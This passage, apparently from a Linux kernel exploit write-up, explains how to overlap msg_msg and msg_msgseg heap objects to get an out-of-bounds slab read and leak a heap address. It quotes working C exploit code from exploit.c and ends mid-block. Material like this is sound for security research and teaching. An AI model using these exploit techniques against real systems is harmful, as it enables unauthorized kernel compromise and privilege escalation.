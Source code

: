 - [exploit/extra-refined/exploit.c#L828](../exploit/extra-refined/exploit.c#L828)
```c
// free the overlapping one and reclaim it with msg_msgseg
memset(buf, 0, sizeof(buf));
uintptr_t buf_ptr = (uintptr_t)buf - 48;
// write the fake size
*(uintptr_t *)(buf_ptr + 0x1000) = 0;                  // mlist.prev
*(uintptr_t *)(buf_ptr + 0x1000 + 8) = 2;              // m_type
*(uintptr_t *)(buf_ptr + 0x1000 + 0x10) = 0x1000 - 48; // m_ts (PG_SIZE - sizeof(struct msg_msg))
*(uintptr_t *)(buf_ptr + 0x1000 + 0x18) = 0;           // next
*(uintptr_t *)(buf_ptr + 0x1000 + 0x20) = 0;           // security

ret = msgrcv(msgqids1[2], msg, sizeof(msg_buf) - 1, 0, IPC_NOWAIT | MSG_NOERROR); // [1]
if (ret < 0)
	perror("msgrcv");
// PG_SIZE - sizeof(struct msg_msg) - TARGET_SIZE - sizeof(struct msg_msgseg)
if (send_msg(msgqid3, buf, 0x1000 + (CG_MSG_MSG_SIZE - 0x10) - 48 - 8, 1) < 0) // [2]
	perror("msgsnd");
```

To leak a heap address (`kmalloc-1k-cg`), we overlap `struct msg_msg` with `struct msg_msgseg`. For that, we first [1] free `struct msg_msg` held by `msgqids[2]` and [2] reclaim it with `struct msg_msgseg` through `msgqid3`. We can allocate the `x`-sized `struct msg_msgseg` by sending msg whose length is `DATALEN_MSG` (i.e., `PG_SIZE` - `sizeof(struct msg_msg)`) - `x` - `sizeof(struct msg_msgseg)` through `msgsnd` syscall. Note that we can still access `struct msg_msg` that is overlapped with `struct msg_msgseg` through `msgqids[0]`.

Using this overlap, we corrupt `struct msg_msg`. Since we can control `struct msg_msgseg` object's content except for the first 8 bytes (used for `next` field), we can overwrite the overlapped `struct msg_msg`'s header except the `m_list.next` field, which will be overwritten by `NULL`. We set the header of `struct msg_msg` as follows.
- `m_list.next` will be overwritten to `NULL` by the `next` fields of `struct msg_msgseg`
- `m_list.prev` can be arbitrary values since it doesn't access by any routines unless the `struct msg_msg` is unlinked. Thus, we set it to `NULL`. 
- `m_type` also can be an arbitrary value. We set it to `2`.
- `m_ts` is the key part since it determines the total length of the msg stored into the current `struct msg_msg`. We set it to `0x1000` to get `kmalloc-cg-512` cache overread to further exploit steps.
- `next` and `security` fields are unused for this steps. They are implicitly set to `NULL`.

Now we can get slab OOB read from `kmalloc-cg-512` through `struct msg_msg` held by `msgqid[0]`.
- [exploit/extra-refined/exploit.c#L845](../exploit/extra-refined/exploit.c#L845)
```c
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, 0x1000 - 48, 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");

uintptr_t small_msg_msg_addr = -1;
printf("[*] overlapped by msg_msgseg : size %d\n", ret);
uintptr_t *payload = (uintptr_t *)msg->mtext;
// candidate offsets by spray layout
// iterate through size of msg_msg
for (size_t i = 0x1d0 / 8; i < ret / 8; i += 64)
{
	if (payload[i] && payload[i + 1])
	{
		small_msg_msg_addr = payload[i + 1];
		break;
	}
}

if (small_msg_msg_addr == -1)
{
	err(1, "fail to leak msg_msg...");
```